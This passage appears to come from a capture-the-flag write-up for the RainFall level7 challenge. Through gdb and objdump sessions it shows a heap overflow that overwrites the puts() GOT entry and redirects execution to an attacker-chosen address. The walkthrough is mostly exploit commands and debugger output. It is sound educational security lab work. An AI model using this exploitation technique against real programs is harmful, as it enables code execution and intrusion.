 ```bash

(gdb) set {char}0x080486fb='7' # fgets() will crash when opening the level8 password file as we cannot setuid to level8

(gdb) continue
Continuing.

Breakpoint 2, 0x080485c2 in main ()

(gdb) x/100x 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x02010101      0x0804a048      0x00000000      0x00000011
0x804a038:      0x00000000      0x00000000      0x00000000      0x00020fc1
0x804a048:      0x42424242      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
...

(gdb) continue
Continuing.
~~
[Inferior 1 (process 2891) exited normally]

```

- We wrote 16 bytes after the malloc call ! The program doesn't segfault as we're still in the same memory page, usually of size 4096

Note that I changed the value of `2` assigned with some '\x01', doing '\x00' instead would cause the strcpy() to stop

- Now let's try to overwrite the puts() call:

```bash
level7@RainFall:~$ objdump -R ./level7

./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
...
08049928 R_386_JUMP_SLOT   puts
...

# Back in gdb
(gdb) r $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x28\x99\x04\x08') $(echo -n -e 'BBBB')
Starting program: /home/user/level7/level7 $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x28\x99\x04\x08') $(echo -n -e 'BBBB')

Breakpoint 1, 0x080485a5 in main ()
(gdb) continue
Continuing.

Breakpoint 2, 0x080485c2 in main ()
(gdb) set {char}0x080486fb='7'
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
